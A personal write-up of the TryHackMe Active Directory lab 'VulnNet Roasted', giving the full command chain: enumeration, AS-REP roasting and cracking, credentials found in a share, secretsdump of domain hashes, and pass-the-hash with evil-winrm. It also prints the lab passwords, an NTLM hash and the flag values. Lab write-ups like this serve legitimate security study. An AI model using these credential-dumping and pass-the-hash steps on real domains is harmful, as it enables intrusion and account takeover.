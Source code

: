 ```yaml
---
layout: post
title: "VulnNet Roasted – TryHackMe"
categories: thm
date: 2025-07-20
---
```


## 🧠 Summary
VulnNet Roasted is an **Active Directory (AD) exploitation** challenge on TryHackMe. It involves **enumeration, AS-REP roasting, password cracking, privilege escalation using secretsdump**, and **retrieving user and system flags**.

> **Note:** I had difficulties because I don’t have deep knowledge of AD yet. This made it confusing to understand SID, RID, Kerberos attacks, and pass-the-hash concepts initially.

---

## 🔍 Tools Used
- `nmap`
- `enum4linux-ng`
- `lookupsid.py` (Impacket)
- `GetNPUsers.py` (Impacket)
- `john` (password cracking)
- `smbclient`
- `evil-winrm` (shell access)
- `secretsdump.py` (Impacket)

---

## 💻 Target Info
- **Machine Name:** VulnNet Roasted
- **Platform:** TryHackMe
- **Difficulty:** Easy but medium in my case
- **Target IP (initial):** 10.10.57.250
- **Redeployed IPs:** 10.10.149.244, 10.10.67.90 (due to session expiry after ~20 mins)
- **Domain:** vulnnet-rst.local
- **OS:** Windows Server 2019 (based on Nmap results)
- **Tags:** Active Directory, Kerberos, Pass-the-Hash, Impacket, Evil-WinRM, Privilege Escalation

---
## ✅ Step 1: Nmap Scan
We start by scanning the target for open ports:

```bash
nmap -sC -sV -Pn -A 10.10.57.250
```
Key Findings:
- Domain Controller detected
- Domain: vulnnet-rst.local

Important Ports:
- 88 (Kerberos) – Authentication
- 445 (SMB) – File Sharing
- 135, 139 – RPC and NetBIOS
- 389, 3268 – LDAP (AD services)
- 5985 – WinRM (for remote shell)

![Nmap Scan Results](/assets/img/vulnnet/nmap.png)

## ✅ Step 2: SMB Enumeration
Check available SMB shares:

```bash
smbclient -L \\\\10.10.57.250\\
```
Output:
- NETLOGON
- SYSVOL
- VulnNet-Business-Anonymous
- VulnNet-Enterprise-Anonymous

![SMB Shares](/assets/img/vulnnet/smb_shares.png)

Difficulty Faced:
- At first, I thought flags were inside these anonymous shares, but they contained only .txt business info files (decoys).

## ✅ Step 3: SID & RID Enumeration
I had trouble understanding SID and RID initially.

What are SID and RID?
- SID (Security Identifier): Unique identifier for a user/group in AD.
- RID (Relative Identifier): The last part of SID, differentiating accounts.
  
Example:

S-1-5-21-1589833671-435344116-4136949213-500

Here, 500 = Administrator RID.

Command:
```bash
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py vulnnet-rst.local/guest@10.10.149.244
```
We found user accounts:
- a-whitehat
- t-skid
- j-goldenhand
- j-leet

![RID Enumeration](/assets/img/vulnnet/lookupsid.png)

## ✅ Step 4: AS-REP Roasting
Some users do not require pre-authentication. We exploit this using:
```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py vulnnet-rst.local/ -no-pass -usersfile vuln.txt
```
Result:
```bash
t-skid@VULNNET-RST.LOCAL:$krb5asrep$23$...
```

![AS-REP Hash Found](/assets/img/vulnnet/asrep.png)

Cracking the Hash:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt roasted.hash
```
Password Found:
t-skid : tj072889*

![Password Cracked](/assets/img/vulnnet/john.png)

## ✅ Step 5: Lateral Movement
Logged in as t-skid with SMB and found ResetPassword.vbs in NETLOGON share.
Command:
```bash
smbclient \\\\10.10.149.244\\NETLOGON -U vulnnet-rst.local\\t-skid
```
Inside, we discovered credentials:
```bash
a-whitehat : bNdKVkjv3RR9ht
```

![ResetPassword.vbs Found](/assets/img/vulnnet/resetpw.png)

## ✅ Step 6: Dumping Domain Hashes (Privilege Escalation)
Using a-whitehat credentials:
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc a-whitehat:bNdKVkjv3RR9ht@10.10.67.90
```
We got Administrator NTLM hash:
```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d
```

![Secretsdump Output](/assets/img/vulnnet/secretsdump.png)

## ✅ Step 7: Pass-the-Hash & Get Administrator Shell
```bash
evil-winrm -i 10.10.67.90 -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d
```
😈 Got Administrator access!

![Administrator Access](/assets/img/vulnnet/admin_shell.png)

## ✅ Step 8: Capture the Flags
Find system.txt and user.txt:
```bash
Get-ChildItem -Path C:\Users -Include *system.txt* -Recurse | Get-Content
Get-ChildItem -Path C:\Users -Include *user.txt* -Recurse | Get-Content
```
Flags:
```bash
User: THM{726b7c0baac1455d05c827b5561f4ed}
System: THM{16f45e3934293a57645f8d7bf71d8d4c}
```

![Flags Found](/assets/img/vulnnet/flags.png)

## ✅ Lessons Learned:
- SID & RID concepts: Critical for AD enumeration.
- AS-REP Roasting: Exploits accounts without pre-authentication.
- Pass-the-Hash: No password required, only NTLM hash.
- Persistence: Multiple re-deployments were needed due to lab expiry.
- Difficulty: Without prior AD knowledge, understanding Kerberos, RID cycling, and WinRM was challenging.

## ✅ Final Thoughts:
This box taught me:
- The real power of Impacket tools.
- The importance of enumeration in AD.
- How lateral movement happens in corporate environments.

🔥 This was tough but rewarding!

